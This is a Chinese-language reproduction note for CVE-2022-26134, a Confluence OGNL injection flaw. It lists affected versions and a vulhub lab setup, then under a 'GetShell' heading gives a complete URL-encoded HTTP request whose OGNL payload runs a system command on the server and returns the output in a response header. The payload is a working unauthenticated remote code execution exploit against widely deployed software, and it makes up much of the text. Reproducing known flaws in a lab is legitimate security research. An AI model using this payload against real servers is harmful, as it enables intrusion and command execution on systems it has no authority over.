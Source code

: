 # CVE-2022-26134 Confluence OGNL 注入复现及后利用

CVE-2022-26134 Confluence OGNL 注入
Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令

攻击者提供的URI将被转换为namespace，然后该namespace将被转换为OGNL表达式进行计算（攻击者提供的url被间接转化成了OGNL表达式进行计算）

受影响版本

1.3.0 <= Confluence Server and Data Center < 7.4.17
7.13.0 <= Confluence Server and Data Center < 7.13.7
7.14.0 <= Confluence Server and Data Center < 7.14.3
7.15.0 <= Confluence Server and Data Center < 7.15.2
7.16.0 <= Confluence Server and Data Center < 7.16.4
7.17.0 <= Confluence Server and Data Center < 7.17.4
7.18.0 <= Confluence Server and Data Center < 7.18.1
环境搭建

docker：vulhub

虚拟机：https://www.jianshu.com/p/074fb87f020a，宝塔安装Postgres

新建数据库

## GetShell
paylaod
```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```